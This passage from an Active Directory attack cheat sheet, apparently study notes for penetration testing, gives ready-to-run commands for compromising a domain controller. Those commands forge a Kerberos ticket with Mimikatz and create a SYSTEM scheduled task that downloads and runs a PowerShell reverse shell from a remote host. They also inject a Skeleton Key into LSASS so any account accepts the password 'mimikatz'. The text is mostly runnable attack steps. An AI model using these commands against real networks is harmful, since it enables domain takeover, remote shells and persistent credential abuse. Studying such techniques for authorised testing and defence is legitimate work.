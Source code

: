 ### <span style="color:#F1C232">2. Using hash of the Domain Controller computer account, below command provides access to shares on the DC</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:star-dc /sid:admin-sid-here /target:star-dc /service:CIFS /rc4:rc4-hash-here /user:Administrator /ptt"'
```

### <span style="color:#F1C232">3. Schedule and execute a task</span>
```powershell
schtasks /create /S star-dc /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"
schtasks /Run /S star-dc /TN "STCheck"
```

> For accessing WMI, we have to create two tickets: one for HOST service and another for RPCSS
{: .prompt-warning }

# <span style="color:lightblue">Skeleton Key</span>

* Skeleton key is a persistence technique where it is possible to patch a Domain Controller (Lsass process) so that it allows access as any user with a single password.
* The attack was discovered by Dell Secureworks used in a malware named the Skeleton Key malware.
* All the publicly known methods are **NOT persistent across reboots**.

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Inject the Skeleton key in the DC
- [x] 2. Now we can access any machine with password as `mimikatz`

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">1. Use the below command to inject a skeleton-Key</span>

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName <computer-name>
```
> Skeleton Key password is : **mimikatz**
{: .prompt-info }
### <span style="color:#F1C232">2. Now we can access any machine with valid username and password as mimikatz</span>

```powershell
Enter-PSSession -Computername <computer-name> -credential dcorp\Administrator
```

## <span style="color:lightgreen">Extra Commands</span>

